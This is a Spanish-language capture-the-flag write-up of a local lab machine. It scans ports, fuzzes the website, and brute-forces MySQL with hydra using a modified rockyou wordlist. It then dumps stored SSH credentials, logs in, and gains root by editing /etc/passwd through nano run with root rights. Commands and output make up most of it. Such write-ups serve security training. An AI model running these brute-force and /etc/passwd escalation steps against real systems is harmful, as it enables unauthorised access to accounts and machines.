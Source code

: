 # Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 21:36 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:66:3d:c0:de:2c:1a:25:f8:fc:10:8a:5c:e9:d2:ba (ECDSA)
|_  256 45:89:84:f6:20:34:a6:7a:2e:1e:07:24:ac:ce:d0:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: V de Vendetta
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, LongColumnFlag, Support41Auth, SupportsLoadDataLocal, IgnoreSigpipes, SupportsCompression, Speaks41ProtocolOld, ODBCClient, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, FoundRows, InteractiveClient, SupportsTransactions, Speaks41ProtocolNew, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: L7j5f#uKSB.]l'wHAK7o
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```
comienzo chequeando el servicio web

![Screenshot From 2024-11-07 21-38-52](https://github.com/user-attachments/assets/395306b0-cb8e-45d9-b80d-a184e4de6a12)

nada en su codigo, asi que le hago fuzzing 

```ruby
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -s 200,301,302 -x txt,php,bak,db,py,html,js,jpg,png,git -t 200 -d 10 --random-agent --no-state
```
```css
___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 301, 302]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       91l      501w    42470c http://172.17.0.2/mascara.jpg
200      GET      144l      851w    62906c http://172.17.0.2/rose.jpg
200      GET       76l      157w     1953c http://172.17.0.2/
200      GET       76l      157w     1953c http://172.17.0.2/index.html
```
nada de interes por aqui, no se utiliza esteganografia en las imagenes y no veo nada mas que me pueda servir...
lo unico llamativo es el mensaje de `"si sabes su nombre sabes todo"` y a lo que mas hace referencia la web es a la mascara de Guy Fawkes, es decir, la mascara
de Vendetta... sin embargo lo que se resalta en esta web es la `V` y tengo 2 servicios mas, `mysql y ssh` asi que despues de intentar de varias maneras logre
acceder al servicio mysql de la siguiente manera:

1) modificando un poco el diccionario rockyou, primero invirtiendolo y luego eliminando los caracteres especiales de este

   ```ruby
   tac /usr/share/wordlists/rockyou.txt > wordlist
   ```
   ```ruby
   nano wordlist
   ```
   ![Screenshot From 2024-11-07 21-55-14](https://github.com/user-attachments/assets/1936b6a6-5f61-4dc0-9bda-5a3a5be67e49)

   aqui elimino los caracteres en color `naranja` quedando:

   ![Screenshot From 2024-11-07 21-56-46](https://github.com/user-attachments/assets/1d332b6d-5ae4-4beb-a69c-227f00626e13)


2) pasando este diccionario modificado a hydra contra el servicio mysql
   ```ruby
   hydra -l V -P wordlist mysql://172.17.0.2 -f
   ```
   ```css
   Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

   Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-07 22:02:47
   [INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
   [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
   [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344403 login tries (l:1/p:14344403), ~3586101 tries per task
   [DATA] attacking mysql://172.17.0.2:3306/
   [3306][mysql] host: 172.17.0.2   login: V   password: ie168
   [STATUS] attack finished for 172.17.0.2 (valid pair found)
   1 of 1 target successfully completed, 1 valid password found
   Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-07 22:02:59
   ```

3) Conexion a la mysql

   ```ruby
   mysql -h 172.17.0.2 -u V -pie168
   ```
   ```css
   ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
   ```
   me lanza este error pero esto ocurre porque automaticamente el ssl esta activado, asi que lo deshabilito con `--skip-ssl` quedando:

   ```ruby
   mysql -h 172.17.0.2 -u V -pie168 --skip-ssl
   ```
   ```css
   Welcome to the MariaDB monitor.  Commands end with ; or \g.
   Your MariaDB connection id is 44
   Server version: 10.11.8-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

   Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

   Support MariaDB developers by giving a star at https://github.com/MariaDB/server
   Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

   MariaDB [(none)]> show databses;
   ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'databses' at line 1
   MariaDB [(none)]> show databases;
   +--------------------+
   | Database           |
   +--------------------+
   | BTN                |
   | information_schema |
   | mysql              |
   | performance_schema |
   | sys                |
   +--------------------+
   5 rows in set (0.001 sec)

   MariaDB [(none)]> use BTN;
   Reading table information for completion of table and column names
   You can turn off this feature to get a quicker startup with -A

   Database changed
   MariaDB [BTN]> show tables;
   +---------------+
   | Tables_in_BTN |
   +---------------+
   | users         |
   +---------------+
   1 row in set (0.001 sec)

   MariaDB [BTN]> select * from users;
   +----+----------+-----------+
   | id | user     | password  |
   +----+----------+-----------+
   |  1 | Vendetta | OldBailey |
   +----+----------+-----------+
   1 row in set (0.001 sec)
   ```
aqui he conseguido credenciales, asi que las probare contra el servicio ssh

```ruby
ssh Vendetta@172.17.0.2
```
y logro el acceso como el user `Vendetta`

# Escalada de Privilegios
### Vendetta

![Screenshot From 2024-11-07 22-22-31](https://github.com/user-attachments/assets/9a4b506f-a69a-4cbb-9001-5b47a1251dcc)

la escalada consistio en editar el archivo /etc/password eliminando la `x` de la linea de root haciendo uso del binario `/usr/bin/nano` que es un editor de texto
con permisos de ejecucion como root y asi logre la escalada

   















